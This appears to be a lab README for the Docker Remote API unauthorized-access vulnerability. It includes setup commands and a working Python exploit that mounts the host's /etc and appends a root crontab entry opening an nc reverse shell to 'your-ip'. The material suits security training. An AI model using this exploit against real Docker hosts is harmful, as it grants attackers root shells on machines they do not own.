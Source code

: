 # docker daemon api unauthorized access exploit

[中文版本(Chinese version)](README.zh-cn.md)

Reference Links：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## Vulnerability environment

Enter following command to build and run the vulnerability environment:

```
docker-compose build
docker-compose up -d
```

after the service started, the 2375 port was published to the host

## Exploit

Start a container, and mount the host `/etc` folder to the container, then we have read/write access to any files.

We can put the commands in crontab configuration file to reverse shell

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

reverse shell success：

![](1.png)
